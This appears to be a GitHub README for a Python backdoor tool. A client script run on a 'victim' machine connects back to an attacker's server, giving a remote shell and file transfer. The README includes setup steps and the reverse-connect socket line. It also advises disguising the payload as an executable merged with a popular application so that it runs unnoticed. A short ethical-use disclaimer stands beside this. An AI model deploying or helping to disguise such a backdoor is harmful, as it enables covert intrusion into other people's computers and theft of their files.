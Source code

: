 # Local_Backdoor_Access

The **Local_Backdoor_Access** project is a simple yet powerful toolset for remote command execution and file transfer between a client and a server using Python.
This tool enables a backdoor connection between a client and a server, allowing remote command execution, file uploads, and downloads over a socket connection.

> **Note:** This tool should only be used in ethical penetration testing scenarios or with explicit permission. Unauthorized use is illegal.

## Features

- **Remote Shell Access:** Control a remote system via a command shell.
- **File Upload and Download:** Transfer files between the client and the server.
- **Clear Command:** Clear the terminal screen on the client or server.
- **Custom Directory Navigation:** Change directories on the target machine.

## How It Works

- **Client:** The client (backdoor.py) attempts to establish a connection to the server (server.py) every 20 seconds. Once connected, it can execute commands, upload/download files, and return results to the server.
  
- **Server:** The server (server.py) listens for incoming client connections. Once connected, it allows you to send commands, upload files to the client, and download files from the client.


>**Note:** backdoor.py is a payload that needs to be executed by the target(victim). You can use various other techniques to make that possible.
        (like converting backdoor.py to .exe and merging it with other mostly used application. So that when target opens the application then the backdoor will execute in background)


### Usage

#### Setting Up the Server

1. Clone the repository:
   
   git clone https://github.com/Vaibhav256/Cybersecurity_Tools/local-backdoor-access

2. Change to directory:

   cd local-backdoor-access

3. Open server.py file:

    nano server.py

4. Edit the ip address and port number according to your network: [Enter the Server's ip address and port]
    *(not a command)*
    make changes in the line no. 57 --> default: sock.bind(('0.0.0.0', 5555))

5. Run the Server:

    python server.py

#### Setting Up the Backdoor (Target)

1. Change to directory:

   cd local-backdoor-access

2. Open backdoor.py file:

    nano backdoor.py

3. Edit the ip address and port number according to your network: [Enter the Server's ip address and port]
    *(not a command)*
    make changes in the line no. 24 --> default: sock1.connect(('0.0.0.0', 5555))

4. Run the Backdoor or make it execute.
    *if your are checking a demo on your own another device then you may run it like:*
        python backdoor.py 
    *you must have backdoor.py file and python installed on that device*
    *OR you can convert py to executable then python is not necessary to be installed on that device.*

### Commands to use (After connection)

1. quit: Terminates the shell session.
2. upload <file>: Upload a file from the client to the server.
3. download <file>: Download a file from the server to the client.
4. cd <directory>: Change directory on the client.
5. clear: Clear the terminal screen

